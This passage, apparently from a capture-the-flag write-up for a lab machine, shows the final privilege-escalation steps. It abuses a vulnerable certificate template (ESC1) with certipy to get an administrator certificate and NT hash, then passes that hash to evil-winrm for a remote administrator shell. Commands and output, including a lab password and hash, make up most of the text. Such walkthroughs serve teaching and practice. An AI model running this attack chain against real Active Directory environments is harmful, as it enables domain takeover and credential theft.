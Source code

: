 #### Exploit ESC1

I’ll use `certipy` to request a certificate and key for administrator:

```

oxdf@hacky$ certipy req -u e.black -p ypOSJXPqlDOxxbQSfEERy300 -target coder.htb -ca coder-DC01-CA -template 0xdf-ESC1 -upn administrator@coder.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 15
[*] Got certificate with UPN 'administrator@coder.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'

```

Using `administrator.pfx`, I’ll dump the NTLM hash for administrator:

```

oxdf@hacky$ certipy auth -pfx administrator.pfx
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@coder.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@coder.htb': aad3b435b51404eeaad3b435b51404ee:807726fcf9f188adc26eeafd7dc16bb7

```

### WinRM

Regardless of how I get the administrator user’s NTLM, I’ll use it to get a shell over WinRM:

```

oxdf@hacky$ evil-winrm -i coder.htb -u administrator -H '807726fcf9f188adc26eeafd7dc16bb7'

Evil-WinRM shell v3.4

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>

```

And grab `root.txt`:

```
*Evil-WinRM* PS C:\Users\Administrator\desktop> type root.txt
aeecabd9************************

```
